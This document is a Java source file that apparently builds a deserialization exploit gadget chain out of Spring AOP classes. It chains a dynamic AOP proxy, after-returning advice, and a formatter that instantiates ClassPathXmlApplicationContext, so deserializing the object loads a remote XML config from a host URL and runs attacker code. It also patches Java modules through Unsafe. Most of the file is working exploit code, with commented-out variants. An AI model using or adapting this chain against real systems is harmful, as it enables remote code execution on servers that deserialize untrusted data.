import java.lang.reflect.*;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
public class Mytest2 {
public static void main(String[] args) throws Exception {
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
HashMap<String, String> targetMap = new HashMap<>();
targetMap.put("argss", "http://127.0.0.1:8888/poc.xml");
advisedSupport.setTarget(targetMap);
Class<?> aClass = Class.forName("org.springframework.aop.interceptor.ExposeInvocationInterceptor");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
declaredConstructor.setAccessible(true);
ExposeInvocationInterceptor aspectJAroundAdvice0 = (ExposeInvocationInterceptor) declaredConstructor.newInstance();
// AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
// pointcut.setExpression(".*get");
advisedSupport.addAdvice(aspectJAroundAdvice0);
AspectJAfterReturningAdvice aspectJAfterReturningAdvice = getAspectJAfterReturningAdvice();
AfterReturningAdviceInterceptor aspectJAroundAdvice = new AfterReturningAdviceInterceptor(aspectJAfterReturningAdvice);
setFieldValue(aspectJAfterReturningAdvice,"argumentNames",new String[]{"java.lang.Object"});
setFieldValue(aspectJAfterReturningAdvice,"returningName","java.lang.Object");
// setFieldValue(aspectJAfterReturningAdvice,"argumentNames",new String[]{"java.lang.Object"});
// setFieldValue(aspectJAfterReturningAdvice,"throwingName","java.lang.Object");
// setFieldValue(aspectJAfterReturningAdvice,"joinPointArgumentIndex",-1);
// setFieldValue(aspectJAfterReturningAdvice,"joinPointStaticPartArgumentIndex",-1);
setFieldValue(aspectJAfterReturningAdvice,"discoveredReturningType",String.class);
advisedSupport.addAdvice(aspectJAroundAdvice);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Map proxyObj = (Map) Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Map.class}, handler);
Hashtable htobject = new Hashtable();
htobject.put("argss","test");
HotSwappableTargetSource htkey = new HotSwappableTargetSource(htobject);
HotSwappableTargetSource htvalue = new HotSwappableTargetSource(proxyObj);
Hashtable hashtable = new Hashtable();
hashtable.put(htkey, "b");
Method addEntry = hashtable.getClass().getDeclaredMethod("addEntry", int.class, Object.class, Object.class, int.class);
patchModule(Mytest2.class,hashtable.getClass());
addEntry.setAccessible(true);
addEntry.invoke(hashtable, 0, htvalue, "2B", 0);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(hashtable);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
private static void patchModule(Class clazz,Class goalclass){
try {
Class UnsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
Class currentClass = clazz;
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
} catch (Exception e) {
}
}
private static AspectJAfterReturningAdvice getAspectJAfterReturningAdvice() throws Exception {
// Method mapGetMethod = Map.class.getMethod("get", Object.class);
// AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
//// pointcut.setExpression(".*get"); // 匹配 Map.get()
// Map<String, String> targetMap = new HashMap<>();
// SingletonAspectInstanceFactory aif = new SingletonAspectInstanceFactory(targetMap);
// AspectJAfterReturningAdvice advice = new AspectJAfterReturningAdvice(
// mapGetMethod, pointcut, aif
// );
// return advice;
DefaultFormatter defaultFormatter = new DefaultFormatter();
defaultFormatter.setValueClass(ClassPathXmlApplicationContext.class);
Method mapGetMethod = DefaultFormatter.class.getMethod("stringToValue", String.class);
AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
pointcut.setExpression("");
SingletonAspectInstanceFactory aif = new SingletonAspectInstanceFactory(defaultFormatter);
AspectJAfterReturningAdvice advice = new AspectJAfterReturningAdvice(
mapGetMethod, pointcut, aif
);
return advice;
// Constructor<ClassPathXmlApplicationContext> declaredConstructor = ClassPathXmlApplicationContext.class.getDeclaredConstructor(String.class);
// Object o = newInstanceWithoutConstructor(TypeFactory.class);
// TypeResolutionContext ctxt = new TypeResolutionContext.Empty((TypeFactory) o);
//
// // 3. 创建 AnnotationMap（存储注解信息，这里用空的）
// AnnotationMap classAnn = new AnnotationMap();
// AnnotationMap[] paramAnn = new AnnotationMap[0]; // 无参数时用空数组
//
// // 4. 初始化 AnnotatedConstructor 对象
// AnnotatedConstructor annotatedConstructor = new AnnotatedConstructor(
// ctxt, declaredConstructor, classAnn, paramAnn
// );
// Method mapGetMethod = annotatedConstructor.getClass().getMethod("call1", Object.class);
// AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();
// pointcut.setExpression("");
// SingletonAspectInstanceFactory aif = new SingletonAspectInstanceFactory(annotatedConstructor);
// AspectJAfterReturningAdvice advice = new AspectJAfterReturningAdvice(
// mapGetMethod, pointcut, aif
// );
// return advice;
}
public static void setFieldValue(Object obj,String filedName,Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = getField(obj.getClass(),filedName);
field.setAccessible(true);
field.set(obj,value);
}
public static Field getField(Class clazz,String fieldName) throws NoSuchFieldException {
while (true){
Field[] fields = clazz.getDeclaredFields();
for(Field field:fields){
if(field.getName().equals(fieldName)){
return field;
}
}
if(clazz == Object.class){
break;
}
clazz = clazz.getSuperclass();
}
throw new NoSuchFieldException(fieldName);
}
}
参考